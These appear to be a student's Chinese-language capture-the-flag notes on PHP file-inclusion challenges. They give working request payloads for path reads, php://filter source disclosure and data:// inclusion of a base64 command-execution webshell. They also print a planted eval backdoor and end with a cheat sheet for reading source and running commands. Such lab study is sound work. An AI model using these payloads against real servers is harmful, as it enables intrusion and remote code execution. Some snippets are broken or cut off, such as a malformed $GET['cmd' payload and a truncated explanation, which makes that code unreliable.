








# e第一题

背景：
某公司开发了一个内部新闻发布系统，据称是由一名实习生完成的。为了评估系统的安全性，我们获取了部分源代码。现在，你需要扮演代码审计工程师，从源代码中找出致命漏洞。

任务：
以下是该系统的核心路由文件 router.php 的部分源代码。请分析其中存在的漏洞，并构造一个有效的HTTP请求，在实操环境中远程读取服务器根目录下的 flag.txt 文件。

部分源码：

```php
if (isset($_GET['page'])) {

$page = $_GET['page'];

include($page);

}
```

## writeup

`http://211.103.180.146:35244/?page=/flag.txt`

# 第二题

启动环境，拼接index.php，访问下面链接，找到flag。

注：flag格式：flag_nisp_xxxxxx

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

通过你所学到的知识，测试该网站可能存在的包含漏洞，尝试获取flag，答案就在根目录下flag.php文件中。

## write up

`http://211.103.180.146:32305/vul/fu1.php?file=view.html`

尝试 http://211.103.180.146:32305/vul/fu1.php?file=./view.html ,显示错误

1. 不在当前目录,可能添加了前缀
2. 过滤器过滤了

尝试了很多方法,最后看答案.

访问view-source:http://211.103.180.146:32305/vul/view.html 查看源码后

```php
<!--
<?php 
@$a = $_POST['Hello'];
if(isset($a)){
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));
}
?>
-->
```

不知道干啥的,先base64_decode 解码出来看看里面是什么内容



看起来能执行函数,

### 正则表达式：`"/\[(.*)\]/e"`

这是最关键的部分，我们拆开看：

- **`/ /`**: 这是正则的定界符，告诉 PHP 正则开始了。
- **`\[`**: 匹配左中括号 `[`。因为 `[` 在正则里有特殊含义，所以需要加反斜杠转义。
- **`(.\*)`**:
  - `.` 代表匹配任意字符。
  - `*` 代表匹配 0 次或多次。
  - `()` 代表**捕获组**。它会把匹配到的内容存起来，方便后面调用。
- **`\]`**: 匹配右中括号 `]`。
- **`/e` (核心考点)**: 这是 PHP 5.5 以前版本的一个 **修正符（Modifier）**。它的意思是：**“请把替换后的结果当作 PHP 代码执行一遍”**。

> **总结：** 这个正则的意思是：找到被 `[` 和 `]` 包裹住的所有内容，并

这道题真的很沙比

看看fu1.php 的源代码

```php
<!--
<!DOCTYPE html>
<html>

<head>
  <meta charset="utf-8">
  <title>CISP</title>
  <link rel="stylesheet" href="../css/materialize.min.css">

</head>

<body>
  <div class="container">

    <div class="row">

      <div class="cols3">
        <?php
	include("nav1.php");
        include("function.php");
        ?>
      </div>

      <div class="col s9">
        <h5>文件包含</h5>
        <b>描述</b>
        <p>请开始答题！</p>
        <div class="card  teal lighten-1">
          <div class="card-action">

            <?php

            $file = $_GET['file'];
//一定要是这个文件
            if ($file != "view.html") {
              //Thisisn'tthepagewewant!
              echo "ERROR!";
              exit;
            } else {
              include($_GET['file']);

            }


            ?>

          </div>
        </div>

      </div>

    </div>

  </div>

</body>

</html>
```

view.html

```html
透过现象看本质
<!--
<?php 
@$a = $_POST['Hello'];
if(isset($a)){
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));
}
?>
-->
```

> 这是html的注释,不是php的注释,他不会阻止php代码的执行,如果后端配置了html也能作为代码执行

# 第三题

通过你所学到的知识，测试该网站可能存在的包含漏洞，尝试获取flag，答案就在根目录下flag.php文件中。



http://211.103.180.146:32531/start/index.php?page=../start/nisp

尝试往上级目录跳,然后再回来,可以看到可以访问

但是会自动添加**文件后缀, 必须绕过**

尝试%20 %00

没有用,没有那么简单,  看答案,需要使用 php的warper  ,记住手写出来

data://text/plain,<?php 代码?>

然后就是读取代码

# 第四题

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

通过你所学到的知识，测试该网站可能存在的包含漏洞，尝试获取webshell，答案就在根目录下key.flag文件中。



## write up

尝试目录穿越

http://211.103.180.146:33950/vul/include.php?file=`../vul/view.html`

http://211.103.180.146:33950/vul/include.php?file=`include.php`

都可以,但是php代码会被执行,如果能看到源码,或许有些帮助,这些题目都是php的,尝试各种php warper

尝试php:// 包装器的ffilter
http://xxx.php?file=`php://filter/read=convert.base64-encode/resource=include.php`



解码出来的include.php

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="gb2312">
    <title>文件包含</title>
    <link rel="stylesheet" href="../css/materialize.min.css">

  </head>
  <body>
<div class="container">

  

<!-- Navbar goes here -->

   <!-- Page Layout here -->
   <div class="row">

     <div class="col s3">
       <?php 
     		include("nav1.php"); 
   
         	include("function.php"); 
         ?>
     </div>

     <div class="col s9">
       <h5>基础题目之文件包含</h5>
       <b>描述</b>
       <p>请开始答题！</p>
       <div class="card  teal lighten-1">
            <div class="card-action">
      
                 <?php

					include($_GET['file']); 

				?>
                 	 
            </div>
          </div>

     </div>

   </div>

</div>
  </body>
</html>

```

看起来没有什么特殊的,为什么不能直接http://xxx/vul/include.php?file=`/etc/passwd`



那直接读 /key.flag 呢,读不到



考试没有网,选一个好记的warper 还是尝试data://

http://xxx/vul/include.php?file=data://text/plain,<?php%20echo%20%27hello%27;?>



不行了,这到题目很沙比,key.flag 根本不在根目录下,而且也用不了data:// 这个,还是用php://filter

http://xxx/vul/include.php?file=`php://filter/read=convert-base64/resource=../key.flag`


# 第五题

flag值存放在系统根目录下，请根据所学知识及题目提示，获取flag值



WRITE up

不看答案不会做的系列,做这个便沙比系列,

http://xxx/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk/Pg==&cmd=base64%20index.php

获得了源码

```php
<html>
	<head>
		<title>网安世纪科技有限公司</title>
	</head>
	<h2>文件包含漏洞</h2>
		<div class="alert alert-success">
			<h3>"http://.../index.php?file="</h3>
		</div>
	<body>
<?php
	if (isset($_GET['file'])) {
		$filename = $_GET['file'];

		// 定义不允许出现的字符串
		$disallowedStrings = ['eval', 'php', 'system'];

		// 检查文件名是否包含任何不允许的字符串
		foreach ($disallowedStrings as $disallowed) {
			if (strpos($filename, $disallowed) !== false) {
				// 如果包含不允许的字符串，退出脚本
				exit('利用失败');
			}
		}

		// 尝试包含文件
		include($filename);
	} else {
		exit();
	}
?>


```


# 总结:

无脑梭哈这两个 warpper  ,一个读源码 一个执行命令 ,可能有非迭代的替换,或在过滤关键字

## php://filter

用于读取源代码,

php://filter/read=convert.base64-encode/resource=要读的源码或在文件路径

read= 可省略（默认就是读），简化为：
php://filter/convert.base64-encode/resource=文件路径

## data://

用于执行命令

data://text/plain,<?php 代码;?>

有过滤时,

将<?php system($GET['cmd');?> base编码后

data://text/plain;base64,替换位置&cmd=命令
